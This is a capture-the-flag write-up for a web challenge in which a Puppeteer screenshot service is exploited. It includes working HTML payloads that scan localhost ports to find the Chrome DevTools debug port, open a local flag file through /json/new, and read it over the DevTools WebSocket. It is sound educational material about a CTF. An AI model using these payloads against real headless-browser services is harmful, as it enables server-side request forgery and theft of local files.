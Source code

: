 # Watered Down Watermark as a Service

**Category**: Web \
**Points**: 240 (15 solves) \
**Author**: lamchcl

## Challenge

We took Watermark as a Service and [watered it down](wdwaas.zip). Hopefully you can still [get the flag](https://wdwaas.2021.chall.actf.co/)!

## Overview

We are presented with a beautiful animated site:

![s](s.png)

Give it something like https://www.google.com and it returns a screenshot with
a subtle watermark:

<img src="x.png" width="400" height="300">

How does it do this? Using [Puppeteer](https://pptr.dev/), a headless browser:

```javascript
function checkURL(url) {
    const urlobj = new URL(url)
    if(!urlobj.protocol || !['http:','https:'].some(x=>urlobj.protocol.includes(x)) || urlobj.hostname.includes("actf.co")) return false
    return true
}

const browser = puppeteer.launch({
    args: ['--no-sandbox', '--disable-setuid-sandbox']
})

async function visit (url) {
	if (!checkURL(url)) return 'no!!!!'
	let ctx = await (await browser).createIncognitoBrowserContext()
	let page = await ctx.newPage()
	page.on('framenavigated',function(frame){
		if (!checkURL(frame.url())) return 'no!!!!'
	})
	await page.setCookie(thecookie)
	await page.goto(url)
	const imageBuffer = await page.screenshot();
	const outputBuffer = await sharp(imageBuffer)
		.composite([{ input: "dicectf.png", gravity: "southwest" }]) // this was definitely not taken from dicectf trust me
		.toBuffer()
	await page.close()
	await ctx.close()
	return outputBuffer;
}
```

## Solution

Video: [s.mp4](s.mp4)

The code mentions a challenge from Dice CTF:
[Watermark as a Service](https://github.com/tlyrs7314/ctf-writeups/tree/main/DiceCTF2021/Watermark-as-a-Service)
(245 points, 20 solves).

The intended solution for that one was to use Google Cloud API to grab the
docker challenge container. Luckily I remembered seeing an unintended solution
posted in the Dice CTF discord:

![r](r.png)

Exploit:
1. Find the Chrome DevTools debug port
2. Open a new tab to `file:///app/flag.txt` using the `/json/new` DevTools endpoint
3. Read the flag by connecting to said tab's Web Socket

The method sodaLee used to find the debug port was to use a bunch of `<iframe>`
tags. That won't work here because of this:
```javascript
    // ...
    page.on('framenavigated',function(frame){
        if (!checkURL(frame.url())) return 'no!!!!'
    })
```

If an `<iframe>` fails, it goes to `chrome://network-error/` which `checkURL()`
doesn't like. One way to bypass this is to use `fetch` with `no-cors`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get port</title>
    </head>
    <body>
        <pre id="urls">Hi</pre>
        <script>
            for (let port = 35000; port < 45000; port++) {
                const url = `http://127.0.0.1:${port}`
                fetch(url, {mode: 'no-cors'}).then(res => {
                    urls.textContent += `\n${url}`
                })
            }
        </script>

        <!-- Delay page load to keep script running -->
        <link rel="stylesheet" href="http://difajosdifjwioenriqoewrowifjaoijdaf.com">
    </body>
</html>
```

After starting an `ngrok` server, I sent my HTML page to be rendered. After
tweaking the port range a few times, I got:

<img src="p.png" width="400" height="300">

Then I sent http://127.0.0.1:40027/json/new?file:///app/flag.txt to the server, giving me:

<img src="id.png" width="400" height="300">

To extract the ID from the image, I used Tesseract OCR:
```sh
$ tesseract id.png stdout -c tessedit_char_whitelist=0123456789ABCDEF
...
C7F7841F482A9778859C24D8C768FCDE
...
```

Had to fix a few errors manually:
```diff
- C7F7841F482A9778859C24D8C768FCDE
+ C7F7841F4A2A0778859C24D8C768FCDE
```

Then I put the ID into `get_flag.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get flag</title>
    </head>
    <body>
        <script>
            const id = 'C7F7841F4A2A0778859C24D8C768FCDE'
            window.ws = new WebSocket(`ws://127.0.0.1:40027/devtools/page/${id}`)
            ws.onerror = (e => {document.writeln('error')})
            ws.onmessage = (e => { document.writeln("<pre>" + e.data + "</pre>"); })
            ws.onopen = () => {
                ws.send(JSON.stringify({
                    id: 1,
                    method: 'Runtime.evaluate',
                    params: { expression: 'document.body.innerHTML' }
                }))
            }
        </script>
    </body>
</html>
```

Then I sent http://xxxxxxxxxxxx.ngrok.io/get_flag.html to be rendered, which
gave me the flag:

<img src="f.png" width="400" height="300">

Cool challenge!
